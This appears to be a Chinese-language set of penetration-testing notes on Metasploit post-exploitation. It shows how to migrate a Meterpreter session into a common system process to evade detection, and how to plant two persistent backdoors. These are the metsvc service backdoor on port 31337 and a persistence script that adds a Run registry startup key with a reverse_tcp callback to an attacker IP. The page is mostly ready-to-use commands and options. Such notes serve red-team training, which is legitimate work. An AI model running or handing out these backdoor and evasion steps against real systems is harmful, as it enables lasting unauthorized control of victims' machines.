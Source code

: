 **进程迁移**

当 meterpreter 单独作为一个进程运行时容易被发现,如果将它和系统经常运行的进程进行绑定,就能够实现持久化.
```bash
getpid          # 查看当前会话的进程 id
ps              # 查看目标运行的进程
migrate [pid]   # 绑定/迁移进程
```

**后门**

MSF 自带两种植入后门的方式

Meterpreter 的 shell 运行在内存中,目标重启就会失效,如果管理员给系统打上补丁,那么就没办法再次使用 exploit 获取权限,所以需要持久的后门对目标进行控制

- **metsvc 服务后门**

    原理：命令运行成功后会在 `C:\Users\用户名\AppData\Local\Temp` 目录下新建随机名称的文件夹,里面生成3个文件(metsvc.dll、metsvc-server.exe、metsvc.exe)同时会新建一个服务,显示名称为 Meterpreter,服务名称为 metsvc,启动类型为"自动",绑定在 31337 端口.

    ```bash
    # 自动化安装
    run metsvc -A

    use exploit/multi/handler
    set payload windows/metsvc_bind_tcp
    set rhost [lhost]
    set lport 31337
    exploit -j
    ```

- **persistence 启动项后门**

    原理就是在 `C:\Users\用户名\AppData\Local\Temp` 下上传一个 VBS 脚本，通过该脚本，在注册表 `HKLM\Software\Microsoft\Windows\CurrentVersion\Run\` 下新建一个开机启动项

    ```bash
    # 自动化部署
    run persistence -A

    run persistence -X -i 10 -r 192.168.1.9 -p 4444
    -A : 安装后门后,自动启动 exploit/multi/handler 模块连接后门
    -L : 自启动脚本的路径,默认为 %TEMP%
    -P : 需要使用的 payload,默认为 windows/meterpreter/reverse_tcp
    -S : 作为一个服务在系统启动时运行(需要 SYSTEM 权限)
    -T : 要使用的备用可执行模板
    -U : 用户登录时运行
    -X : 系统启动时运行
    -i : 后门每隔多少秒尝试连接服务端
    -p : 服务端监听的端口
    -r : 服务端 ip
    ```

    ```bash
    use exploit/multi/handle
    set payload windows/meterpreter/reverse_tcp
    set LHOST [lhost]
    set LPORT [lport]
    exploit -j
    ```
